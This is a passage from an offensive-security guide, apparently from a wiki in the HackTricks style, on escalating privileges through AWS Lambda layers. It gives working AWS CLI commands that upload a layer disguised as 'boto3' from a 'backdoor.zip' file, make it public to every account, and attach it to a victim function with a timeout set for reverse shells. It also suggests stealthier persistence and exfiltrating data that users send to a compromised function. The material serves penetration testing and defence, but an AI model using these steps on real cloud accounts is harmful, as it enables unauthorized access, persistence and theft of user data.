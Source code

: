 {% code overflow="wrap" %}
```bash
aws lambda publish-layer-version --layer-name "boto3" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"
```
{% endcode %}

Now, make the uploaded lambda layer **accessible by any account**:

```bash
aws lambda add-layer-version-permission --layer-name boto3 \
    --version-number 1 --statement-id public \
    --action lambda:GetLayerVersion --principal *
```

And attach the lambda layer to the victim lambda function:

```bash
aws lambda update-function-configuration \
    --function-name <func-name> \
    --layers arn:aws:lambda:<region>:<attacker-account-id>:layer:boto3:1 \
    --timeout 300 #5min for rev shells
```

The next step would be to either **invoke the function** ourselves if we can or to wait until i**t gets invoked** by normal means–which is the safer method.

A **more stealth way to exploit this vulnerability** can be found in:

{% content-ref url="../aws-persistence/aws-lambda-persistence/aws-lambda-layers-persistence.md" %}
[aws-lambda-layers-persistence.md](../aws-persistence/aws-lambda-persistence/aws-lambda-layers-persistence.md)
{% endcontent-ref %}

**Potential Impact:** Direct privesc to the lambda service role used.

### `?iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateFunctionUrlConfig`, `lambda:InvokeFunctionUrl`

Maybe with those permissions you are able to create a function and execute it calling the URL... but I could find a way to test it, so let me know if you do!

### Lambda MitM

Some lambdas are going to be **receiving sensitive info from the users in parameters.** If get RCE in one of them, you can exfiltrate the info other users are sending to it, check it in:

{% content-ref url="../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

